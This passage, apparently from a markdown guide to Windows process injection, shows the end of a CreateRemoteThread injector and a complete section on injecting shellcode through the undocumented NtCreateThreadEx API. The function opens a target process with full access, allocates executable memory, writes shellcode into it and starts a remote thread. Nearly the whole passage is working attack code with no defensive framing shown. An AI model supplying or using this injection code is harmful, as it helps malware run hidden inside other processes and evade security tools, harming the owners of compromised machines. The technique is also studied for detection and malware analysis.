 ```c
                                        (LPTHREAD_START_ROUTINE)remote_buffer,
                                        NULL, 0, NULL);
    
    WaitForSingleObject(hThread, INFINITE);
    
    CloseHandle(hThread);
    CloseHandle(hProcess);
    
    return 0;
}
```

### 4.2 NtCreateThreadEx (Undocumented API)

```c
typedef NTSTATUS (NTAPI *pfnNtCreateThreadEx)(
    PHANDLE ThreadHandle,
    ACCESS_MASK DesiredAccess,
    LPVOID ObjectAttributes,
    HANDLE ProcessHandle,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    BOOL CreateSuspended,
    DWORD dwStackSize,
    DWORD Unknown1,
    DWORD Unknown2,
    LPVOID Unknown3
);

BOOL inject_via_ntcreatethreadex(DWORD pid, LPVOID shellcode, SIZE_T size) {
    HMODULE ntdll = GetModuleHandleA("ntdll.dll");
    pfnNtCreateThreadEx NtCreateThreadEx = (pfnNtCreateThreadEx)GetProcAddress(ntdll, "NtCreateThreadEx");
    
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    
    LPVOID remote_buffer = VirtualAllocEx(hProcess, NULL, size,
                                          MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    WriteProcessMemory(hProcess, remote_buffer, shellcode, size, NULL);
    
    HANDLE hThread = NULL;
    NtCreateThreadEx(&hThread, GENERIC_ALL, NULL, hProcess,
                     (LPTHREAD_START_ROUTINE)remote_buffer, NULL,
                     FALSE, 0, 0, 0, NULL);
    
    WaitForSingleObject(hThread, INFINITE);
    
    CloseHandle(hThread);
    CloseHandle(hProcess);
    
    return TRUE;
}
```

---